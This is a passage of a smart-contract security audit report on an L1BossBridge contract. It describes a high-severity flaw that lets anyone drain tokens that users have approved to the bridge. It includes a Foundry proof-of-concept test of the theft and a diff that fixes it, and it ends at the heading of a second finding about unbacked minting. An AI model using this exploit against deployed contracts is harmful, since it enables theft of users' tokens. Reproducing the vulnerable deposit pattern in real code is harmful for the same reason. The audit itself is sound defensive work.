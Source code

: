 # Findings

## High 

### [H-1] Users who give tokens approvals to `L1BossBridge` may have those assets stolen

The `depositTokensToL2` function allows anyone to call it with a `from` address of any account that has approved tokens to the bridge.

As a consequence, an attacker can move tokens out of any victim account whose token allowance to the bridge is greater than zero. This will move the tokens into the bridge vault, and assign them to the attacker's address in L2 (setting an attacker-controlled address in the `l2Recipient` parameter).

As a PoC, include the following test in the `L1BossBridge.t.sol` file:

```javascript
function testCanMoveApprovedTokensOfOtherUsers() public {
    vm.prank(user);
    token.approve(address(tokenBridge), type(uint256).max);

    uint256 depositAmount = token.balanceOf(user);
    vm.startPrank(attacker);
    vm.expectEmit(address(tokenBridge));
    emit Deposit(user, attackerInL2, depositAmount);
    tokenBridge.depositTokensToL2(user, attackerInL2, depositAmount);

    assertEq(token.balanceOf(user), 0);
    assertEq(token.balanceOf(address(vault)), depositAmount);
    vm.stopPrank();
}
```

Consider modifying the `depositTokensToL2` function so that the caller cannot specify a `from` address.

```diff
- function depositTokensToL2(address from, address l2Recipient, uint256 amount) external whenNotPaused {
+ function depositTokensToL2(address l2Recipient, uint256 amount) external whenNotPaused {
    if (token.balanceOf(address(vault)) + amount > DEPOSIT_LIMIT) {
        revert L1BossBridge__DepositLimitReached();
    }
-   token.transferFrom(from, address(vault), amount);
+   token.transferFrom(msg.sender, address(vault), amount);

    // Our off-chain service picks up this event and mints the corresponding tokens on L2
-   emit Deposit(from, l2Recipient, amount);
+   emit Deposit(msg.sender, l2Recipient, amount);
}
```

### [H-2] Calling `depositTokensToL2` from the Vault contract to the Vault contract allows infinite minting of unbacked tokens
